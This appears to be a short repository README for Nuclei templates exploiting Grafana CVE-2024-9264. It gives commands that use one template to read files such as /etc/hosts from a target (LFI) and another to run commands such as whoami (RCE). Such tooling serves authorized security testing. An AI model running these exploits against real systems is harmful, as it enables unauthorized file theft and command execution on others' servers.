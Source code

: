 # Grafana

## CVE-2024-9264

### LFI 

- file: [grafana-cve-2024-9264-lfi.yaml](./grafana-cve-2024-9264-lfi.yaml)

The `grafana-cve-2024-9264-lfi.yaml` template leverages the vulnerability to exfiltrate files from the target.

Please note that you may need to escape slashes when specifying the path of the file you want to read in the rfile variable to prevent Nuclei from trying to open the file on your system.

```sh
nuclei -u <URL> -t ./grafana-cve-2024-9264-lfi.yaml -var username=<USER> -var password=<PWD> -var rfile="\/etc\/hosts"
```

#### RCE

- file: [grafana-cve-2024-9264-rce.yaml](./grafana-cve-2024-9264-rce.yaml)

The `grafana-cve-2024-9264-rce.yaml` template leverages the vulnerability to run commands the target.

```sh
nuclei -u <URL> -t ./grafana-cve-2024-9264-rce.yaml -var username=<USER> -var password=<PWD> -var command=whoami
```

